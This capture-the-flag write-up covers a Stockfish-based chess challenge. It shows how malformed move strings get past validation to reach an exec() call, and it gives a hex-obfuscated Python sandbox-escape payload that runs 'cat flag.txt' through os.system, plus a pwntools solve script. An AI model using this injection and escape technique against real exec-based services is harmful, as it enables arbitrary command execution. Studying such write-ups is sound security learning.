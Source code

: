 # Writeup 

We need to reach the ```exec(result)``` statement in the code but you can only reach there when you survive atleast 50 moves, after which all of our moves get executed.
### Part one: Wrong move but correct input.

```py
user_move = ""
        while user_move == "":
            user_move = input("Your move: ").strip()
            if user_move:
                all_moves.append(user_move)
                stockfish.make_moves_from_current_position([user_move])
                print(stockfish.get_board_visual())
            else:
                print("Error: Empty input. Please enter a valid move.")
```

In this part of the code, to play chess the moves has been made with the help of ```stockfish.make_moves_from_current_position()``` which takes a list input. So we are allowed to input multiple moves. But we must inject code not moves. If we take a look at ```stockfish.make_moves_from_current_position()``` function,

```py
def make_moves_from_current_position(self, moves: Optional[List[str]]) -> None:
        """Sets a new position by playing the moves from the current position.

        Args:
            moves:
              A list of moves to play in the current position, in order to reach a new position.
              Must be in full algebraic notation.
              Example: ["g4d7", "a8b8", "f1d1"]
        """
        if not moves:
            return
        self._prepare_for_new_position(False)
        for move in moves:
            if not self.is_move_correct(move):
                raise ValueError(f"Cannot make move: {move}")
            self._put(f"position fen {self.get_fen_position()} moves {move}")
```
Something really weird is happening, if we put move as ```anything <valid move> anything```, the valid move we make does get acknowledged to be correct but no Error thrown for anything before and after, also the valid move doesn't get played !? which means we can put ```code ; <valid move> ;``` . 

Something to note here is, the way the input is taken and sent to make_moves_from_current_position() is not correct way of doing if accounting for unintentional multiple moves as instead of the list being sent ```[ 'code', ';', '<valid move>', ';' ]``` which will indeed raise ValueError, the list sent is ```[ 'code ; <valid move> ; ']``` that does not raise any errors but doesn't play ```<valid move>``` either , while list ```[' <valid move> <valid move> <valid move> ']``` does not raise ValueError but does play all the ```<valid moves>``` too!

### Part two : Payload

Even when we know how to put code, we must play least 50 moves, thankfully when our move is ignored, stockfish just plays against itself, and it plays the same move sequence everytime. Going through that game once, ```a2a3``` stays a valid move input till count reaches 62 except at count = 46 , which is a Queen check and valid move is ```g1h1``` or ```g1h2```. 

So we'll put payload at the very first move and garbage later, as long as all inputs have the valid move.

```
getattr(getattr(getattr(getattr(getattr(bytearray().decode(), bytearray([0x5f,0x5f,0x63,0x6c,0x61,0x73,0x73,0x5f,0x5f]).decode()), bytearray([0x5f,0x5f,0x6d,0x72,0x6f,0x5f,0x5f]).decode())[1], bytearray([0x5f,0x5f,0x73,0x75,0x62,0x63,0x6c,0x61,0x73,0x73,0x65,0x73,0x5f,0x5f]).decode())()[84], bytearray([0x6c,0x6f,0x61,0x64,0x5f,0x6d,0x6f,0x64,0x75,0x6c,0x65]).decode())(bytearray([0x6f,0x73]).decode()),bytearray([0x73,0x79,0x73,0x74,0x65,0x6d]).decode())(bytearray([0x63,0x61,0x74,0x20,0x66,0x6c,0x61,0x67,0x2e,0x74,0x78,0x74]).decode())
```
this payload which is to skip over  ' character is , using ```_frozen_importlib.BuiltinImporter``` is this: 
```
getattr(getattr(getattr(getattr(getattr(bytearray().decode(), '__class__'),'__mro__')[1],'__subclasses__')()[84], 'load_module')('os'),'system')('cat flag.txt')
```

You can get the ```[84]``` index for ```_frozen_importlib.BuiltinImporter``` , by :
```
print(getattr(getattr(getattr(bytearray().decode(), '__class__'),'__mro__')[1],'__subclasses__')())
```
which is
```
print(getattr(getattr(getattr(bytearray().decode(), bytearray([0x5f,0x5f,0x63,0x6c,0x61,0x73,0x73,0x5f,0x5f]).decode()), bytearray([0x5f,0x5f,0x6d,0x72,0x6f,0x5f,0x5f]).decode())[1], bytearray([0x5f,0x5f,0x73,0x75,0x62,0x63,0x6c,0x61,0x73,0x73,0x65,0x73,0x5f,0x5f]).decode())())
```
<hr>

Here is the ```sol.py``` that uses above two realisations and gets the flag. 

```py
from pwn import *

payload = input("Enter payload:")
payload += " ; a2a3 ;"

n = 33
input_list = []

for i in range(n):
    move = "x ; a2a3 ;"
    input_list.append(move)
input_list[0] = payload
input_list[23] = "x ; g1h2 ;"
print(input_list)

chal_host = "127.0.0.1" #insert here
chal_port = 39641 

p = remote(chal_host, chal_port)

for user_input in input_list:
    p.sendline(user_input)
output=p.recvall(timeout=2).strip()
print(output.decode())

print("Done")

```


<hr>

## Flag: nite{4nd_th3n_h3_s4cr1f1c135_th3_ROO00000000000KKKKK!!!!}

